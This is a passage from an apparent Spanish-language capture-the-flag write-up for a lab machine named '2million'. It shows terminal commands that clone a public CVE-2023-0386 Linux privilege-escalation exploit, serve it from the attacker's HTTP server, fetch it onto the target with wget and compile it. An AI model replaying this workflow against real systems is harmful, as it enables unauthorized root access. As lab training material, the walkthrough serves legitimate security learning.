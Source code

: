 ```bash
❯ git clone https://github.com/sxlmnwb/CVE-2023-0386.git
Cloning into 'CVE-2023-0386'...
remote: Enumerating objects: 13, done.
remote: Counting objects: 100% (13/13), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 13 (delta 2), reused 13 (delta 2), pack-reused 0
Receiving objects: 100% (13/13), 8.89 KiB | 379.00 KiB/s, done.
Resolving deltas: 100% (2/2), done.
❯ zip comprimido.zip -r CVE-2023-0386

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Me hago un comprimido para pasármelo a la máquina en un servidor http con python

```bash
admin@2million:/tmp$ wget http://10.10.14.160/comprimido.zip
--2024-06-10 23:11:25--  http://10.10.14.160/comprimido.zip
Connecting to 10.10.14.160:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43518 (42K) [application/zip]
Saving to: ‘comprimido.zip.1’

comprimido.zip.1                                0%[                                                                                                  ]       0  --.-KB/s            comprimido.zip.1                              100%[=================================================================================================>]  42.50K  91.4KB/s            comprimido.zip.1                              100%[=================================================================================================>]  42.50K  91.4KB/s    in 0.5s    

2024-06-10 23:11:26 (91.4 KB/s) - ‘comprimido.zip.1’ saved [43518/43518]
```

Lo descomprimimos y ejecutamos el comando make all que nos decia en el repo de github

```bash
admin@2million:/tmp/CVE-2023-0386$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
```